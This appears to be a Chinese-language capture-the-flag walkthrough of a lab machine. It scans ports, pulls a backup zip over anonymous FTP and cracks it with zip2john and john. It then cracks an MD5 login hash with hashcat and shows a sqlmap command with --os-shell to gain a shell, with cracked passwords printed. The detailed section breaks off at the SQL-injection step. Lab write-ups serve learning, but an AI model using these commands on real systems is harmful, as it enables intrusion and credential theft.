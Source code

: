 1. nmap扫描

> map -A -sV 10.129.194.163
> 22 ssh 21 ftp 80 http

2. 匿名访问ftp获得备份文件 anonymous
3. 利用zip2john 和 john解密zip,并找到web页面的登录密码
4. 解密hash

> hashcat -a 0 -m 0 test.txt /usr/share/wordlists/rockyou.txt

5. 利用sql注入和反弹shell获取webshell

> sqlmap -u "http://10.129.194.163/dashboard.php?search=f" --cookie="PHPSESSID=4h3a937f4hobqtlb4v0o3iposd" --os-shell

### 一、操作步骤

1. nmap扫描

```shell
    nmap -A -sV 10.129.194.163
    # 出现端口21、22、80
    # 利用思路：
    #   1. 对ssh服务进行弱口令爆破，无效 
    #   2. 通过信息发现ftp可以匿名登录，发现存在文件`backup.zip`文件
    #   3. 登录10.129.194.163web页面，存在登录界面，尝试万能密码无效。
    #  假设`backup.zip`文件可能存在相关信息，但是需要密码进行解压
```

2. `backup.zip`文件破解

```
john 是一款大受欢迎的、免费的开源软件、基于字典的密码破解工具。用于在已知密文的情况下尝试破解出明文的破解密码软件，支持目前大多数的加密算法，如 DES 、 MD4 、 MD5 等
```

- 利用`zip2john`转换zip文件

```shell
    zip2john backup.zip >> hashs
```

- 使用`john`工具破解密码

```shell
    john hashs  # 获得密码741852963
```

- 解压`backup.zip`文件,发现文件`index.php`和`style.css`

```php
#index.php
session_start();
if(isset($_POST['username']) && isset($_POST['password'])) {
if($_POST['username'] === 'admin' && md5($_POST['password']) ===
"2cb42f8734ea607eefed3b70af13bbd3") {
$_SESSION['login'] = "true";
header("Location: dashboard.php");
```

> 从代码中发现，密码经过md5加密，需要解密

- 使用`hashcat`工具进行解密

```shell
    hashcat -a 0 -m 0 test.txt /usr/share/wordlists/rockyou.txt
    # -a 指定破解模式
    #       0  straight                   字典破解
    #       1  combination                将字典中密码进行组合（1 2>11 22 12 21）
    #       3  brute-force                使用指定掩码破解
    #       6  Hybrid Wordlist + Mask     字典+掩码破解
    #       7  Hybrid Mask  + Wordlist    掩码+字典破解
    # -m 指定哈希类型,0为md5
```

> 直接使用字典爆破，获得密码qwerty789,直接登录web从而进入下一步操作

3. sql注入
- 


